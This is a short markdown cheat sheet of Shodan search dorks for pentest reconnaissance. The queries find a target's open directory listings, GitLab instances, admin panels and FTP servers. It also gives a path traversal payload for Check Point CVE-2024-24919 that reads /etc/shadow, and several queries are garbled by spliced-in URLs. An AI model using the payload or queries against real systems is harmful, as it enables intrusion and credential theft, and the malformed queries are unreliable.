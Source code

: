 # Shodan Dorks

| Description | Dork | Comments |
| ---- | ---- | ---- |
| Path Traversal Vulnerability in File Inclusion Check Point | title:"Check Point" ssl:"target" | aCSHELL/../../../../../../../etc/shadow<br><br>CVE-2024-24919 |
|  | http://ssl.cert.subject.CN:"*.target.com" "230 login successful" port:"21"  |  |


```
1. http://ssl.cert.subject.CN:"*.target.com" http.title:"index of/" 
 
2. http://ssl.cert.subject.CN:"*.target.com" http.title:"gitlab" 
 
3. http://ssl.cert.subject.CN:"*. http://target.com" http.title:"gitlab" 
 
4. http://ssl.cert.subject.CN:"*.target.com" "230 login successful" port:"21" 
 
5. http://ssl.cert.subject.CN:"*. http://target.com" +200 http.title:"Admin"


```

https://web.archive.org/web/20240118221726/https://community.turgensec.com/shodan-pentesting-guide/

https://github.com/jakejarvis/awesome-shodan-queries